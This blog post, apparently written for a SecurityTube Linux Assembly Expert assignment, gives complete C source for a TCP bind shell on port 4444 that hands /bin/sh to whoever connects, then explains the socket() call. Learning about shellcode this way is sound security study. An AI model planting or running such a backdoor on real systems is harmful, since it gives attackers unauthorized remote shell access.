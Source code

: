 ## Assignment 0x01: Create A Shell_Bind_TCP Shellcode
---
```c
#include <stdio.h>
#include <unistd.h>
#include <sys/socket.h>
#include <netinet/in.h>

int main ()
{

    int sockfd = socket(AF_INET, SOCK_STREAM, 0);
    
    struct sockaddr_in addr;
    addr.sin_family = AF_INET;
    addr.sin_port = htons(4444);
    addr.sin_addr.s_addr = INADDR_ANY;

    bind(sockfd, (struct sockaddr *)&addr, sizeof(addr));
    listen(sockfd, 0);

    int connfd = accept(sockfd, NULL, NULL);
    for (int i = 0; i < 3; i++)
    {
        dup2(connfd, i);
    }

    execve("/bin/sh", NULL, NULL);
    return 0;
}
```
## Analysis of shell_bind_tcp.c
First, a socket is created using the `socket` function. As described in `man 2 socket`, the function creates an endpoint for communication and returns a file descriptor that refers to that endpoint. 

`socket()` expects a domain argument, a type argument, and a protocol argument.

`int sockfd = socket(AF_INET, SOCK_STREAM, 0);`

In this case, the domain argument AF_INET specifies the IPv4 communication protocol, the type argument SOCK_STREAM specifies the connection-based TCP standard for data exchange, and the protocol argument 0 indicates that the system should select the default protocol number based on the previously specified domain and protocol arguments.

_This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:_

<http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert>

_Student ID: SLAE-1469_

---
[Home](https://norrismw.github.io/SLAE)
